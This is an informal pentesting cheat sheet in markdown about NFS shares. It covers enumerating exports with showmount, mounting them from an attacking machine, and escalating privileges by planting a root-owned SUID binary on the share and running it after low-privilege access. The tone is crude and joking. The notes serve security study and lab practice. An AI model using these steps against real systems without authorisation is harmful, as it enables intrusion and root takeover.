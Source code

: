 ## NFS (Network File Shits... joking)
​
NFS stands for "Network File System" and allows a system to share directories and files with others over a network.
​
​
### Enumerating
​
1. #### Port Scanning
   - [[Nmap#Syn Scan]]
   
   ​
2. #### Enumerate Shares
   - Go to the mountain:
   >[!Tip] Chebra
   >```
   >showmount -e {target IP}
   >```
   
   ​
3. #### Mounting NFS shares
   - Create a temporary directory (must in /tmp) in your ==attacking machine== to recieve:
   >[!Example]
   >```
   >mkdir /tmp/mount
   >```
   
   - Mount the mounty mounter:
   >[!Tip] Chebra
   >```
   >sudo mount -t nfs {target IP}:{share} {path of temporary dir} -nolock
   >```
   
   ​
4. #### Gather everything
   - If you find something, go and EXPLOOOOOOOOOOOOOOOOOOOOOOOOODE!
     
   
   ​
​
### Exploiting
​
1. #### Go outside, come inside
   - Change to the mounting machine to upload some shit
   
   ​
2. #### Download (outside) the fakin file
   - Download or prepare a file thats gonna give you the madafaka escalation (fe. a bash)
   
   ​
3. #### Permissions (outside)
   - Remember to be outside the mounti mountain to set this permissions:
   >[!Tip] Chebra
   >```
   >sudo chown root {fakin file}
   >```
   
   ​
4. #### Insert the $#%! (inside <-- outside)
   - Copy to the mount, in this case we are supposing u' r' inside already. Also we are supposing that there's no gonna be any chance in the name, so it continues as {fakin file}:
   >[!Tip] Chebra
   >```
   >cp {fakin file} .
   >```
   
   ​
5. #### Add SUID bit
   - Sweeden:
   >[!Tip] Chebra
   >```
   >sudo chmod +s {fakin file}
   >```
   
   ​
6. #### Now go, for real, inside
   - Use an SSH or whatever that let you enter the system with low privs
   
   ​
7. #### Now that you r' in, EXECUTE!
   - Don't forget to Seek and Destroy inside